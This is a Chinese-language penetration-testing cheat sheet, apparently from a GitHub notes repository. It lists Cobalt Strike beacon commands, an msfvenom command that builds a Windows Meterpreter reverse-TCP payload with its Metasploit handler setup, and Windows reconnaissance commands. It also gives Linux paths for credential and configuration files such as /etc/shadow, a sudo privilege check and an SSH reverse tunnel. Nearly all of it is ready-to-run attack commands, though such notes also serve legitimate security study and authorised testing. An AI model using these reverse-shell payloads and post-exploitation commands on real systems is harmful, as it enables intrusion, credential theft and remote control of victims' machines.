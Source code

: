 # 渗透测试

## Nmap

### 参考资料

不老的神器：安全扫描器Nmap渗透使用指南：

https://www.freebuf.com/news/141607.html


## Cobalt Strike

```
sleep 1 （修改回连时间，快速响应操作）

getuid（查看当前beacon是以什么身份运行的）

getsystem（尝试获取SYSTEM权限）

getprivs（获取当前beacon所有权限）

net view HACKBIJI（非域用户，查看域HACKBIJI计算机信息，可以看到域控服务器地址）

net dclist（域用户，查看域控服务器）

net share（列出所有的共享目录和文件）

net user (列出所有的用户)
```

## Windows 渗透

利用msf套件

反弹shell

生成

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<攻击机地址> LPORT=<攻击机端口> -f exe > shell.exe
```

上传到靶机后

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <靶机地址>
set LPORT <攻击机端口>
exploit
```

拿到meterpreter shell以后

可以``shell``进入cmd环境

信息搜集

```
whoami
hostname
net user
net localgroup administrators
查看是什么操作系统 & 系统版本：
系统中文：systeminfo | findstr /B /C:"OS 名称" /C:"OS 版本"
系统英文：systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

### 参考资料
https://guide.offsecnewbie.com/privilege-escalation/windows-pe


## Linux 渗透

## 敏感文件

```
/etc/passwd
/etc/shadow
```

### ``/proc/self``

```
/proc/self/maps
/proc/self/cwd
/proc/self/status
/proc/self/exe
```

### Apache

```
/etc/httpd/conf/httpd.conf
/etc/apache2/apache2.conf
/etc/apache2/sites-enabled/000-default.conf
```

### 字典

https://github.com/ev0A/ArbitraryFileReadList


### 提权

```
sudo -l
```

### 隧道

ssh port forwarding

```
ssh -R 9001:localhost:9001 root@192.168.19.130
```

